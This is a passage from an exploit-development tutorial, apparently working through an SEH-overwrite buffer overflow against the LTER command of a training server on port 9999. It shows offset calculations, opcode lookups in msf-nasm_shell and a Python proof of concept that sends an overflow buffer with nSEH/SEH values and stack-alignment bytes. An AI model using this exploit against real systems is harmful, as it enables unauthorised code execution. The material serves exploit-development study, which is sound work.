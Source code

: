 ```term
root@whitecr0wz:~/Exploit-Dev/LTER# hexcalc 0x017BFFFC 0x017BECA4 
0x1358
root@whitecr0wz:~/Exploit-Dev/LTER# 
```

##### As given, 0x1358 is the value needed to add to 0x017BECA4 in order to become 0x017BFFFC.

##### The opcodes for such operation are found in msf-nasm_shell.

```term
nasm > add ax, 0x1358
00000000  66055813          add ax,0x1358
nasm > 
```

##### The next step is to find the opcodes of PUSH EAX, POP ESP, this is done once again in msf-nasm_shell.

```term
nasm > PUSH ESP
00000000  54                push esp
nasm > POP EBX
00000000  5B                pop ebx
nasm > 
```

###### PoC code:

```term
import socket, sys, struct

alignment = ""
alignment += "\x54\x58\x54\x5B"
alignment += "\x66\x05\x58\x13"
alignment += "\x50\x5C"

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x6250195E)

buffer = "LTER /.:/" + "A" * 3515 + nseh + seh + "A" * 2 + alignment + "A" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```
